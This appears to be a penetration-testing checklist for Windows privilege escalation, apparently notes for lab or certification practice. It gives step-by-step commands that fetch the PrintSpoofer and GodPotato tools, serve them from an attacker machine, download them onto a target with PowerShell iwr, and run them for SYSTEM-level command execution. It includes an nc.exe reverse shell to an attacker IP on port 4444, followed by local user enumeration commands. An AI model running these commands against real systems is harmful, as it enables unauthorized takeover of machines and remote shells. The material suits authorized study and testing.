 ### Abusing privileges
#### Printspoofer (SeImpersonatePrivilege)
- [ ] Download and serve `PrintSpoofer64.exe` on your Kali Machine
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `PrintSpoofer64.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

- [ ] Using PrintSpoofer to get an interactive PowerShell session in the context of `NT AUTHORITY\SYSTEM` on the Target Machine
```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```
#### Potatoes (SeImpersonatePrivilege)
- [ ] Download and serve GodPotato on your Kali Machine
```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```
```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe
```
```
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe
```
```
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `GodPotato-NET4.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
```

- [ ] Using GodPotato's built-in Clsid for privilege escalation and command execution on the Target Machine
```powershell
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

- [ ] Use GodPotato to execute a `nc` reverse shell on the Target Machine
```bash
.\GodPotato-NET4.exe -cmd "nc.exe -e C:\Windows\System32\cmd.exe 192.168.xxx.xxx 4444"
```
- Requires nc.exe

## Local Users
- [ ] Show all local users on the Target Machine
```powershell
Get-LocalUser
```
```powershell
net user
```
```
dir C:\Users
```
